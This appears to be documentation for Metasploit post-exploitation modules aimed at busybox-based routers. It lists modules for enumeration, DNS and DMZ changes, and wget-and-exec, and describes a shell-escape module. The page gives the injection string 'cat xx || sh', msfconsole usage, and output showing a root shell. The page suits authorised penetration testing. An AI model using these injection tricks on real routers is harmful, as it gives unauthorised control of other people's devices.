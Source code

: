 <h1>Details</h1>

Ruby scripts:

modules/post/linux/gather/busybox_enum_connections.rb
modules/post/linux/gather/busybox_enum_hosts.rb
modules/post/linux/gather/busybox_pingnet.rb
modules/post/linux/manage/busybox_jailbreak.rb
modules/post/linux/manage/busybox_setdmz.rb
modules/post/linux/manage/busybox_setdns.rb
modules/post/linux/manage/busybox_smb_share_root.rb
modules/post/linux/manage/busybox_wgetandexec.rb

They are post- modules. 

Data:

routers_userpass.txt

<h2>busybox_jailbreak.rb</h2>

This module is intended to be applied against a session connected to a limited shell of a device (for example a router) based on busybox (maybe it could work against non-busybox devices but it is oriented to busybox). For example, if you connect by telnet to a router, usually you are received with a limited shell specific for that router. It is common these limited shells to be using busybox commands internally. For example if the limited shell offers the command "cat", it is common it ends up calling busybox cat command. And it is common too to find command injection attacks in these limited shells (i.e. "cat xx || sh" to get the busybox shell in the most of models of comtrend routers). Busybox_jailbreak.rb module tries a set of tricks to break the jailbreak and get your session connected to the busybox ash shell.

This module will output the command applied for breaking the limited shell in case it was able to break it.

<h3>Usage</h3>

```
use post/linux/manage/busybox_jailbreak
set SESSION 1
set VERBOSE yes
run
```

<h3>Verbose output</h3>

```
[*] Running against session 1
SESSION => 1
VERBOSE => yes
[*] jailbreak sent: cat xx || sh
.
[*] jailbreak received: cat xx || sh
.
[*] jailbreak received: cat: xx: No such file or directory


BusyBox v1.00 (2010.09.30-13:07+0000) Built-in shell (msh)
Enter 'help' for a list of built-in commands.

# .
[*] Done method 1_1.
[*] Post module execution completed
```
